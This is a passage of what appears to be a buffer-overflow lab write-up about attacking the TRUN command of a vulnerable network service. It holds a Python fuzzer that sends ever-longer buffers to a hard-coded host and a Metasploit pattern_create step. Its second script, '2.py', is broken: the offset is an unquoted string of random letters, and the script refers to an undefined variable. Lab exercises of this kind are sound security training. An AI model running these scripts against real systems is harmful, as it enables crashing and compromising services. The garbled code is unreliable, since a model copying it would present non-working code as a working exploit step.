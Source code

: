   ```
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
 ```
 
* running the script 


### Finding the Offset

**pattern_create**

```pattern_create.rb -l 3000 ```


**2.py**


```python3
#!/usr/bin/python
 
import sys, socket

offset = afasdfghjklxcvbnmhdwertyukojahayufavhjhagsiyftyuef
while True:
    try:
        payload = "TRUN /.:/" + offset
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(offset)))
        s.send((payload.encode()))
        s.close()
        
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
 ```
